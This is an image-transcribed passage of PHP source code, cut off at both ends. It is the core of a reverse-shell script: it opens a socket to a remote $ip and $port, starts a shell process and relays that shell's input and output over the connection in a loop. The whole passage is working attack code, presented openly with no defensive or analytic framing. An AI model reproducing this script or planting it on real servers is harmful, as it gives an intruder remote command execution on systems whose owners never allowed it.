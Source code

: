 ```php
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
```